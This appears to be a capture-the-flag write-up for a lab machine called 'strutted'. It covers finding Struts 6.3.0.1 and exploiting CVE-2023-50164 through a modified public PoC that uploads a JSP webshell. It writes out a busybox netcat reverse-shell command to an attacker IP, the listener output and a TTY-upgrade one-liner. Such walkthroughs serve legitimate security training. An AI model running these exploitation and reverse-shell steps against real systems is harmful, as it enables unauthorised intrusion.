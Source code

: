 ```bash
context.xml  Dockerfile  README.md  strutted  strutted.zip  tomcat-users.xml
```
Inside tomcat-users.xml, we find some credentials:
```bash
<tomcat-users>
    <role rolename="manager-gui"/>
    <role rolename="admin-gui"/>
    <user username="admin" password="<REDACTED>" roles="manager-gui,admin-gui"/>
</tomcat-users>
```
But there’s no /manager/html page, the default admin login path — so this password is kinda useless for now. Might come in handy later.

# Foothold

In the strutted folder, there's a pom.xml file, the most intersting part is this:

```xml
<properties>
    <struts2.version>6.3.0.1</struts2.version>
</properties>
```
> pom.xml is a config file in Java projects that defines dependencies and build settings.

Looking up vulnerabilities for Struts 6.3.0.1, I found CVE 2023-50164.

>A critical RCE vuln (CVE-2023-50164, CVSS 9.8) lets attackers manipulate file upload params to gain RCE.

[I tried this PoC](https://github.com/jakabakos/CVE-2023-50164-Apache-Struts-RCE), but at first, it didn’t work.

```bash
└─$ python3 exploit.py --url http://strutted.htb/
[+] Starting exploitation...
[+] WAR file already exists.
[+] webshell.war uploaded successfully.
[+] Reach the JSP webshell at http://strutted.htb/webshell/webshell.jsp?cmd=<COMMAND>
[+] Attempting a connection with webshell.
[-] Maximum attempts reached. Exiting...
```
This was actually the hardest and longest part.
Looking at script, I suspected that it didn`t work because the web root was deeper than expected, so I adjusted the number of parent directories in the path parameter, plus i added gif magic bytes to the script for the file_content parameter… and finally got it working:

<img width="1665" height="853" alt="2025-08-05 114246" src="https://github.com/user-attachments/assets/42d51827-fdb8-4f22-87a4-989c24a64baa" />

<img width="1187" height="285" alt="2025-08-05 115534" src="https://github.com/user-attachments/assets/b9d8c57b-1ac8-4359-a113-0f5cd36fbf4d" />

Started a local listener on port 9001 and used this command to get a reverse shell:
```bash
CMD > busybox nc 10.10.14.73 9001 -e /bin/bash
```
```bash
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.73] from (UNKNOWN) [10.129.231.200] 35386

id
uid=998(tomcat) gid=998(tomcat) groups=998(tomcat)
```
Upgrading to an interactive TTY shell:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo; fg; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```